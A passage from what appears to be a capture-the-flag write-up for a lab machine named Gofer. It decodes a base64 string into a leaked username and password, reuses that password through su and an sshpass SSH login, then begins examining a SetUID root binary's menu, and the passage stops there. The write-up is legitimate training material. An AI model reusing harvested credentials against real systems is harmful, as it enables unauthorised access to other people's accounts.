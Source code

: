

    jhudson@gofer:/etc/apache2$ echo "dGJ1Y2tsZXk6b29QNGRpZXRpZTNvX2hxdWFldGk=" | base64 -d
    tbuckley:ooP4dietie3o_hquaeti



### su / SSH

That password for tbuckley works as the password for the user on Gofer
as well:



    jhudson@gofer:/etc/apache2$ su - tbuckley
    Password: 
    tbuckley@gofer:~$



It also works over SSH:



    oxdf@hacky$ sshpass -p ooP4dietie3o_hquaeti ssh tbuckley@gofer.htb
    Linux gofer.htb 5.10.0-23-amd64 #1 SMP Debian 5.10.179-2 (2023-07-14) x86_64
    ...[snip]...
    You have no mail.
    tbuckley@gofer:~$



## Shell as root

### notes Enumeration

At this point, there isn't much enumeration needed, as I now have access
to a SetUID/SetGID binary running as root. This seems like the clear
path forward. I'm going to show exploiting this binary without opening
it in Ghidra or `gdb`, but rather just playing with it, as I initially
solved this. I'll do some reversing in [Beyond Root](#notes-binary).

I always want to start with playing with the intended functionality of
the application before trying to hack it.

Running `notes` presents a menu:



    tbuckley@gofer:~$ notes
    ========================================
    1) Create an user and choose an username
    2) Show user information
    3) Delete an user
    4) Write a note
    5) Show a note
    6) Save a note (not yet implemented)
    7) Delete a note
    8) Backup notes
    9) Quit
    ========================================
